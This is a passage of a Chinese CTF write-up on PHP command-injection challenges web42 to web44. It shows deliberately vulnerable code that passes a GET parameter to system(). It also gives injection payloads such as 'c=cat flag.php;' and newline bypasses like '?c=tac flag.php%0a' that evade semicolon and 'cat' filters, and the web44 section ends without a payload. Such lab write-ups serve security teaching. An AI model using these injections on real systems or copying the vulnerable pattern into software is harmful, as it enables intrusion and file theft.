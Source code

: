 https://blog.csdn.net/miuzzx/article/details/108569080

## web42~</dev/null无过滤

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
} 
```

payload:

```
c=ls;
c=cat flag.php;
```

## web43~</dev/null过滤分号cat

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

过滤分号和`cat` 使用 换行符 `%0a`

```
?c=ls%0a
?c=tac flag.php%0a
```

说一下为啥 `system()` 函数要用的分号或者截断，因为不用的话输入的语句就和后边的  `>/dev/null 2>&1` 拼接起来了。最后不关输入啥都会把结果输出到 `/dev/null`。

详情看这里： https://www.cnblogs.com/520playboy/p/6275022.html

## web44~>/dev/null过滤; cat flag

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
